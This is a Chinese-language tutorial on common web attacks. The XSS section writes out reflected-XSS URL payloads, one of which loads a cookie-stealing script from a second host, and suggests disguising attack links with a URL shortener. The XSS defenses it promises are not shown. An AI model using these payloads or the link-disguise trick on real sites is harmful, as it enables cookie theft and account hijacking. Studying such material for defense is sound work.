 # 1、常见web攻击

## 目标目录

- 掌握XSS (实施 + 防御)
- 掌握CSRF (实施 + 防御)
- 掌握点击劫持 (实施 + 防御)
- 掌握SQL注入 (实施 + 防御)
- 掌握OS注入 (实施 + 防御)
- 了解请求劫持
- 了解DDOS


## XSS

- XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和CSS重叠，所以只能叫 XSS。
- 跨站脚本攻击，是指通过存在安全漏洞的Web网站，注册用户的浏览器内运行非法的非本站点JavaScript脚本进行的一种攻击。
- 跨站脚本攻击有可能造成以下影响：
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

### XSS分类

- 反射型：url参数直接注入
    - 所谓反射型，就是攻击脚本必须放在另外的地方，才能完成攻击：`from=<script src="http://localhost:4000/hack.js"`
        ```js
        // 普通
        http://localhost:3000/?from=china
        // alert尝试
        http://localhost:3000/?from=<script>alert(3)</script>
        // 获取Cookie
        http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
        ```
    - 为了在url不被一眼看出来攻击脚本，可以使用短域名伪造
        - 短域名伪造（https://dwz.cn/）之后，得到的url和原本的攻击url是同等效力的。
- 存储型：存储到DB后读取时注入
    - 在页面上通过表单输入的攻击脚本，存储注入在数据库中，等到页面刷新获取到该数据时，攻击脚本就被执行

### XSS攻击的危害

执行脚本Scripting能干啥，XSS攻击就能干啥：
- 获取页面数据
- 获取Cookies
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户
